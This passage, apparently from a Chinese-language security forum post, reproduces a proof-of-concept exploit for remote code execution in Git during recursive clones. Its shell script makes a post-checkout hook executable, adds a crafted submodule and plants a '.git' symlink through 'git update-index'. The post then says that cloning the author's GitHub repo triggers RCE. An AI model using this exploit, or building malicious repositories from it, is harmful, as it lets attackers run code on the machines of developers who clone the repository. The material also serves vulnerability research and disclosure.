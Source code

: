 ```php
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# 定义 hook 仓库路径
hook_repo_path="$(pwd)/hook"

# 初始化 captain 仓库
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# 创建符号链接
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

# 本地测试，传到github无需使用此功能
git clone --recursive captain hooked
```

运行`git clone --recursive git@github.com:10cks/captain.git GIT-RCE`后就可以RCE了：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1716176968660-815e292a-45d4-4d7f-8757-8af06bc9db69.png)

![tutieshi_640x360_4s_z.gif](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-99189f941f9d4baa6a60cc2e1cc08ba257da03c3.gif)

参考链接
====

<https://twitter.com/amalmurali47/status/1791566569501573163>